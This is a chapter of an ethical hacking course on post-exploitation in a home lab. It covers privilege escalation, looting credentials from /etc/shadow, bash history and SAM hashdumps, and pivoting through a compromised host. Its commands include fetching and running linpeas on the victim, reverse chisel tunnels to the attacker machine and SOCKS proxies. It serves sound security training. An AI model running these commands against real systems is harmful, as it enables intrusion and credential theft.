

# 14 — Post-Exploitation & Pivoting

> **What you'll learn:** what to do *after* you get a shell — escalate to full control, loot credentials, understand persistence, and **pivot** through one compromised host to reach a hidden network you couldn't touch before.
> **Prerequisites:** [13 — Wireless](13-wireless.md). ⬅️ [Course index](README.md)

Maps to CEH [Module 06 — System Hacking](../modules/06-system-hacking/README.md), the **Escalating Privileges → Maintaining Access** phases. You've *gained access*; this chapter is everything that comes next.

---

## You have a shell — now what?
A **foothold** is your first working access to a target — usually a **shell** (a command prompt on the victim). Beginners celebrate the shell and stop. Professionals treat it as the *starting line*. There are four goals, and they map straight onto the CEH methodology:

| Goal | Plain English | CEH phase |
|---|---|---|
| **Escalate** (privesc) | Turn a low-privilege user into `root` / `SYSTEM` (full admin) | Escalating Privileges |
| **Loot** | Harvest passwords, hashes, keys, and interesting files | Maintaining Access |
| **Pivot** | Use this host as a stepping-stone into networks Kali can't reach | Maintaining Access |
| **Persist** | Keep a way back in after a reboot | Maintaining Access |

**Privilege escalation** ("privesc") means going *up* — from a normal user to administrator. **Vertical** = more power; **horizontal** = same power, different user (handy when the other user can reach things you can't).

## Privilege escalation — Linux
First, orient yourself. Who am I, and what am I allowed to do?

```bash
id                              # my user + groups
sudo -l                         # what can I run with sudo? (the #1 privesc win)
find / -perm -4000 -type f 2>/dev/null   # SUID binaries — run as their owner (often root)
```
- **`sudo -l`** lists commands you may run as another user. If it shows something like `(root) NOPASSWD: /usr/bin/find`, you can often abuse that program to spawn a root shell (see [GTFOBins](https://gtfobins.github.io/)).
- **SUID** (`-perm -4000`) marks a program that runs *as its owner* no matter who launches it. A misconfigured SUID-root binary is a ticket to root.

*You should see* one or two SUID paths that look out of place (e.g. `nmap`, `vim`, `find` in the list). Those are your leads.

**linpeas** automates the whole hunt — it checks hundreds of misconfigurations and colour-codes the juicy ones. Serve it from Kali, run it on the victim:
```bash
# On Kali (192.168.56.10): fetch linpeas and share it over HTTP
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh -o linpeas.sh
python3 -m http.server 80

# On the victim shell (e.g. Metasploitable2, 192.168.56.20):
cd /tmp
wget http://192.168.56.10/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh | tee linpeas.out       # tee = show it AND save a copy
```
*You should see* screens of output; anything printed in **red/yellow** ("95% PE vector") is where to focus.

## Privilege escalation — Windows
Same idea, different commands. Start with your privileges:

```powershell
whoami                # which account am I?
whoami /priv          # my privilege tokens — SeImpersonate/SeDebug are gold
whoami /groups        # am I in a powerful group?
```
- Certain rights (e.g. **SeImpersonatePrivilege**) let a service account become `SYSTEM` with a known exploit.
- **winpeas.exe** is the Windows twin of linpeas — same download-and-run pattern, from the same [PEASS-ng](https://github.com/peass-ng/PEASS-ng) project.

If your shell came from **Metasploit**, Meterpreter has this built in:
```bash
meterpreter > getuid                                  # who am I right now?
meterpreter > getsystem                               # try known tricks to become SYSTEM
meterpreter > run post/multi/recon/local_exploit_suggester   # which local exploits fit?
```
- **`getsystem`** attempts several impersonation techniques automatically. Run `getuid` after — success shows `NT AUTHORITY\SYSTEM`.
- **`local_exploit_suggester`** checks the OS/patch level against Metasploit's local privesc exploits and prints the ones likely to work.

## Looting — harvesting credentials & secrets
Once you're admin, collect anything that lets you reach *further* — this is the "gather" step of Maintaining Access. Credentials are the prize, because a password reused elsewhere turns one box into many.

```bash
# --- Windows (Meterpreter, as SYSTEM) ---
meterpreter > hashdump                       # dump local SAM account hashes
meterpreter > run post/windows/gather/smart_hashdump

# --- Linux (as root) ---
cat /etc/passwd                              # user list
cat /etc/shadow                              # password hashes (crack offline — see ch.10)
cat ~/.bash_history                          # commands the user typed (often has passwords!)
grep -ri password /var/www /etc 2>/dev/null  # config files with secrets
find / -name "id_rsa" 2>/dev/null            # SSH private keys = more hosts
```
Those hashes feed straight into offline cracking or **Pass-the-Hash** from [10 — Password attacks](10-password-attacks.md) and [11 — Active Directory](11-active-directory.md). *You should see* at least a few users in `/etc/shadow` and, on a lived-in box, gold in `.bash_history`.

## Persistence — staying in (concept only)
**Persistence** means arranging to get back in *after* the victim reboots or your shell dies — a scheduled task, a new service, an extra SSH key, a registry "run" entry. It's a core part of Maintaining Access.

Keep it **high-level and lab-only** here, and understand *why*: persistence is exactly what defenders and EDR hunt for. New services, new scheduled tasks, unfamiliar autoruns, and stray `authorized_keys` entries are loud, well-monitored signals (see the detection column in [Module 06](../modules/06-system-hacking/README.md)). On a real engagement persistence is high-risk and rules-of-engagement-gated; in the lab, know the *concept* and how it's caught, and prefer clean re-exploitation over leaving backdoors around.

## Pivoting — reaching the hidden subnet
Here's the scenario that makes pivoting click. You compromise **ws01 (192.168.56.31)** and discover it is **dual-homed** — it has a *second* network card on an internal `10.10.10.0/24` network. Kali (`192.168.56.10`) has no route to `10.10.10.0/24`; only ws01 can talk to it. Inside sits a server, `10.10.10.100`, you'd love to scan.

A **pivot** is using a compromised host as a relay to reach networks behind it. A **tunnel** is the pipe you push traffic through. A **SOCKS proxy** is a mini traffic-forwarding server: point a tool at it and the tool's connections come out the *other* side — on ws01's internal network.



There are several ways to build the tunnel. Pick by what you already have on the pivot:

| Technique | Use when… | Result |
|---|---|---|
| Meterpreter `autoroute` + SOCKS | You have a Meterpreter session | Metasploit + proxychains reach the subnet |
| `portfwd` | You need just **one** port | A local port on Kali maps to a remote service |
| `chisel` (reverse) | No Meterpreter, no SSH; you can run a binary | A SOCKS proxy back to Kali |
| `ssh -D` | You have SSH creds on the pivot | A quick SOCKS proxy, no extra tools |

### Route 1 — Metasploit autoroute + SOCKS proxy
`autoroute` teaches Metasploit how to route through your session; then a SOCKS server exposes it to other tools.

```bash
# In your Meterpreter session on ws01:
meterpreter > run autoroute -s 10.10.10.0/24     # route this subnet via this session
meterpreter > background                          # keep the session, drop to msf prompt

# Now stand up a SOCKS proxy inside msfconsole:
msf6 > use auxiliary/server/socks_proxy
msf6 auxiliary(socks_proxy) > set SRVPORT 1080
msf6 auxiliary(socks_proxy) > set VERSION 5
msf6 auxiliary(socks_proxy) > run -j             # -j = run in the background
```
*You should see* `[*] Starting the SOCKS proxy server`. Metasploit modules can now target `10.10.10.100` directly, and other tools reach it via `127.0.0.1:1080`.

### Route 2 — proxychains + the SOCKS proxy
**proxychains** forces any command's traffic through a proxy. Tell it about the SOCKS proxy from Route 1 (or Route 3/4 — they all end at a local SOCKS port):

```bash
# Edit the config and make sure the last line points at your proxy:
sudo nano /etc/proxychains4.conf
#   ...at the bottom, under [ProxyList]:
#   socks5  127.0.0.1  1080
```
Now prefix any tool with `proxychains`. The classic example — scanning the hidden host **through** ws01:

```bash
proxychains nmap -sT -Pn -p 22,80,445,3389 10.10.10.100
```
*You should see* `[proxychains] Strict chain ... 127.0.0.1:1080 ... 10.10.10.100:445 ... OK` lines, then Nmap's results for a host Kali can't otherwise see.

> **Why `-sT -Pn`?** A SOCKS proxy only carries **full TCP connections**, so you must use TCP connect scan (`-sT`), not SYN (`-sS`), and skip host discovery (`-Pn`) and UDP. Keep the port list short — proxied scans are slow.

### Route 3 — chisel (a reverse tunnel, no Meterpreter needed)
When you only have a plain shell and can upload a binary, **chisel** builds a tunnel. A **reverse** tunnel means the *victim* dials back to *you* — useful because outbound connections usually pass firewalls that block inbound ones.

```bash
# On Kali — run chisel as a server that accepts reverse tunnels:
chisel server -p 8000 --reverse

# On the pivot (ws01) — connect back and expose a SOCKS proxy:
./chisel client 192.168.56.10:8000 R:socks
```
- `R:socks` = "reverse SOCKS": chisel opens a SOCKS proxy **on Kali** (default port `1080`) whose traffic exits on ws01.
- Point `/etc/proxychains4.conf` at `127.0.0.1:1080` and reuse the Route 2 command. *You should see* the client print `Connected` on both ends.

### Route 4 — ssh -D (dynamic proxy, if you have SSH creds)
If the pivot runs SSH and you have a login, no extra tools are needed — OpenSSH builds the SOCKS proxy for you:

```bash
ssh -D 1080 -N msfadmin@192.168.56.20      # -D = dynamic SOCKS on :1080, -N = no shell, just tunnel
```
Leave that running, and again proxychains through `127.0.0.1:1080`. This is the fastest pivot when SSH access exists.

### portfwd — forwarding a single port
If you only need one service (say RDP on the hidden host), forwarding a single port is simpler than a whole proxy:

```bash
meterpreter > portfwd add -l 3389 -p 3389 -r 10.10.10.100
# Now on Kali, connect to 127.0.0.1:3389 and you're really hitting 10.10.10.100:3389
xfreerdp /v:127.0.0.1:3389 /u:admin
```

## Common beginner mistakes
- **Stopping at the shell.** The shell is the *start* of post-ex, not the finish. Always run `sudo -l` / `whoami /priv` next.
- **`-sS` through a proxy.** SYN scans and UDP don't survive SOCKS. Use `proxychains nmap -sT -Pn`.
- **Scanning huge ranges through a pivot.** Proxied traffic is slow and noisy — target specific hosts and a few ports.
- **Forgetting `autoroute`.** A SOCKS proxy with no route added reaches nothing; add the subnet first.
- **Wrong proxy port in `proxychains4.conf`.** The port in the config must match your tunnel (1080 in these examples). One typo = "connection refused."
- **Leaving persistence lying around in the lab.** Backdoors are loud and monitored; know the concept, but don't litter — re-exploit cleanly.
- **Running privesc scripts without permission.** linpeas/winpeas are lab tools; only on hosts you're authorised to test.

## ✅ Practice task
1. On Metasploitable2 (`192.168.56.20`), get a shell, then run `sudo -l` and `find / -perm -4000 -type f 2>/dev/null`. Note one SUID binary and look it up on GTFOBins.
2. Serve `linpeas.sh` from Kali with `python3 -m http.server 80`, run it on the target, and save the output with `tee`. Find one red/yellow finding.
3. Loot: `cat /etc/shadow` and `cat ~/.bash_history`. Save any hashes to a file for later cracking.
4. Build a pivot: `ssh -D 1080 -N msfadmin@192.168.56.20`, add `socks5 127.0.0.1 1080` to `/etc/proxychains4.conf`, then run `proxychains nmap -sT -Pn -p 22,80 127.0.0.1` and confirm the `[proxychains] ... OK` lines appear.
5. In one sentence, map each step above to its CEH phase (Escalating Privileges vs. Maintaining Access).

## Next
➡️ [15 — Notes & reporting](15-notes-and-reporting.md): turning everything you found into clean notes and a professional findings report.

## Sources
- PEASS-ng (linpeas / winpeas) — https://github.com/peass-ng/PEASS-ng
- chisel (fast TCP/UDP tunnel over HTTP) — https://github.com/jpillora/chisel
- proxychains-ng — https://github.com/rofl0r/proxychains-ng
- Metasploit — Pivoting docs — https://docs.metasploit.com/docs/using-metasploit/intermediate/pivoting-in-metasploit.html
- GTFOBins (Unix binary abuse) — https://gtfobins.github.io/
- MITRE ATT&CK — Privilege Escalation (TA0004) — https://attack.mitre.org/tactics/TA0004/
